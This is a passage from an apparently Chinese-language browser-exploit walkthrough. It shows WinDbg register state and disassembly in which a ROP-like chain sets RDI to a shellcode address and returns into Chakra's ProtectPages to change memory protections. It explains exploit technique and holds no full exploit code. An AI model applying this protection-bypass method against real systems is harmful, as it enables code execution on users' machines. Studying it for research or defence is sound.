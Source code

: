 执行完三个pop以后，可以看到相应的寄存器中，已经保存了相应的值，这里，RDI存放的是shellcode的地址

```
0:012> r
rax=0000000000000000 rbx=0000000000000040 rcx=00000014d53fcc28
rdx=0000000000008040 rsi=0000000000001000 rdi=0000012605297000
rip=00007ff96b1ca2f8 rsp=00000014d53fcca8 rbp=00000014d53fcf41
 r8=00000000ffff8000  r9=0000000000000800 r10=0000000000001000
r11=0000000000000080 r12=0000012602a2d200 r13=0000012602a50570
r14=0000000000000000 r15=0000012605192f40
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe8:
00007ff9`6b1ca2f8 c3              ret
```

执行最后一个Return以后，会来到这里，这里不像传统的ROP，但是，目的都是一样的，修改指定地址的保护权限。

```
0:012> uf 00007ff96b1ca2cb
chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages:
00007ff9`6b1ca210 4c8bdc          mov     r11,rsp
00007ff9`6b1ca213 4d894b20        mov     qword ptr [r11+20h],r9
00007ff9`6b1ca217 4d894318        mov     qword ptr [r11+18h],r8
00007ff9`6b1ca21b 49895310        mov     qword ptr [r11+10h],rdx
00007ff9`6b1ca21f 49894b08        mov     qword ptr [r11+8],rcx
00007ff9`6b1ca223 53              push    rbx
00007ff9`6b1ca224 56              push    rsi
00007ff9`6b1ca225 57              push    rdi
00007ff9`6b1ca226 4881ec80000000  sub     rsp,80h
00007ff9`6b1ca22d 49c743a8feffffff mov     qword ptr [r11-58h],0FFFFFFFFFFFFFFFEh
00007ff9`6b1ca235 488bfa          mov     rdi,rdx
00007ff9`6b1ca238 48f7c2ff0f0000  test    rdx,0FFFh
00007ff9`6b1ca23f 0f85b4000000    jne     chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x35:
00007ff9`6b1ca245 498bc9          mov     rcx,r9
00007ff9`6b1ca248 488b5110        mov     rdx,qword ptr [rcx+10h]
00007ff9`6b1ca24c 483bfa          cmp     rdi,rdx
00007ff9`6b1ca24f 0f82a4000000    jb      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x45:
00007ff9`6b1ca255 488b4920        mov     rcx,qword ptr [rcx+20h]
00007ff9`6b1ca259 498bf0          mov     rsi,r8
00007ff9`6b1ca25c 492bc8          sub     rcx,r8
00007ff9`6b1ca25f 48c1e10c        shl     rcx,0Ch
00007ff9`6b1ca263 8bc7            mov     eax,edi
00007ff9`6b1ca265 2bc2            sub     eax,edx
00007ff9`6b1ca267 483bc1          cmp     rax,rcx
00007ff9`6b1ca26a 0f8789000000    ja      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x60:
00007ff9`6b1ca270 41b830000000    mov     r8d,30h
00007ff9`6b1ca276 498d53b0        lea     rdx,[r11-50h]
00007ff9`6b1ca27a 488bcf          mov     rcx,rdi
00007ff9`6b1ca27d ff150d824000    call    qword ptr [chakra!_imp_VirtualQuery (00007ff9`6b5d2490)]
00007ff9`6b1ca283 4885c0          test    rax,rax
00007ff9`6b1ca286 7471            je      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x78:
00007ff9`6b1ca288 48c1e60c        shl     rsi,0Ch
```